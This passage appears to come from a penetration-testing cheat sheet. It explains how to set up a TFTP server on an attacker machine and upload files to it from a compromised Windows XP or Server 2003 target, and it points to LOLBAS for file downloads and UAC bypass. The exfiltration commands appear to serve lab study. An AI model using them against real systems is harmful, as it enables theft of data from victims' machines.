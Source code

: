 #### Using TFTP

Although TFTP is not ideal, for older OS's like XP and Server 2003, where Powershell is not an option, TFTP can help out.

First, install tftp on the attacker machine:

```bash
sudo apt update && sudo apt install atftp
```

Next, create a folder to receive files and set permissions:

```bash
sudo mkdir /tftp
sudo chown nobody: /tftp
```

Finally, activate the tftp server:

```bash
sudo atftpd --daemon --port 69 /tftp
```

Now, from the Windows target, upload files to the attacker tftp server:

```powershell
tftp -i 192.168.119.216 put file.txt
```

BIG NOTE:  Windows Firewall could block this transfer due to tftp's handing off of the transfer to a high port.  You may need to allow tftp through Windows Firewall for this to work 🤦🏻‍♂️

### More Techniques

For some incredibly interesting ways to use common Windows utilities for file operations, program execution, UAC bypass, and much more, see the Living Off The Land Binaries And Scripts (LOLBAS) project, maintained by Oddvar Moe and several contributors, which aims to “document every binary, script, and library that can be used for [these] techniques.” For example, the certutil.exe
program can easily download arbitrary files and much more.  

https://github.com/LOLBAS-Project/LOLBAS